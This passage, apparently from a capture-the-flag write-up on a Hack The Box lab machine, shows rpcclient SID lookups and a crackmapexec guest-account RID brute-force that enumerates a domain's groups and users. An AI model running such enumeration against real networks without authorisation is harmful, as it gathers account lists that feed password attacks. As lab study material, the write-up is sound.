 ```
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-517
S-1-5-21-4078382237-1492182817-2568127209-517 MANAGER\Cert Publishers (4)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-518
S-1-5-21-4078382237-1492182817-2568127209-518 MANAGER\Schema Admins (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-519
S-1-5-21-4078382237-1492182817-2568127209-519 MANAGER\Enterprise Admins (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-520
S-1-5-21-4078382237-1492182817-2568127209-520 MANAGER\Group Policy Creator Owners (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-521
S-1-5-21-4078382237-1492182817-2568127209-521 MANAGER\Read-only Domain Controllers (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-522
S-1-5-21-4078382237-1492182817-2568127209-522 MANAGER\Cloneable Domain Controllers (2)
rpcclient $> lookupsids S-1-5-21-4078382237-1492182817-2568127209-523
S-1-5-21-4078382237-1492182817-2568127209-523 *unknown*\*unknown* (8)
```

</🔄 Alternative Step>

`crackmapexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute`:
```
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

